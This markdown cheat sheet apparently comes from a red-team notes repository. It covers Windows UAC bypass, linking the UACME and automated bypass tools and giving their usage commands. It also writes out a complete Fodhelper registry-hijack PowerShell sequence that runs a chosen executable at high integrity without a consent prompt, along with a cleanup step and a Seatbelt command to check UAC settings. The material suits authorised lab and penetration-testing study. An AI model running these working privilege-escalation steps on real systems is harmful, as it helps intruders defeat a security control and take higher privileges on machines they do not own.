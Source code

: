 ## UAC bypass
- A UAC bypass is a technique by which an application can go from Medium to High Integrity without prompting for consent.
- Tool: https://github.com/hfiref0x/UACME
- Guide on how to build: https://ad-lab.gitbook.io/building-a-windows-ad-lab/vulnerabilities-and-misconfigurations-and-attacks/misc/page-3-4

 ```
 .\Akagi64.exe <METHOD> <EXECUTABLE>
 .\Akagi64.exe 34 cmd.exe
 ```
 
#### Automatec UAC bypass PowerShell script 
- https://github.com/x0xr00t/Automated-MUlti-UAC-Bypass

```
.\Win-Multi-UAC-Bypass.ps1
```
 
### Manual UAC bypass
- https://atomicredteam.io/defense-evasion/T1548.002/
 
#### Fodhelper
- Can also use ```C:\Windows\System32\cmd.exe /c powershell.exe```
```
New-Item "HKCU:\software\classes\ms-settings\shell\open\command" -Force
New-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "(default)" -Value "<PATH TO EXE>" -Force
Start-Process "C:\Windows\System32\fodhelper.exe"
 
# Cleanup
Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
```
 
#### Check current UAC configuration
- The default configuration for UAC is Prompt for consent for non-Windows binaries, but can also have different settings such as Prompt for credentials, Prompt for consent and Elevate without prompting.
```
Seatbelt.exe uac
```

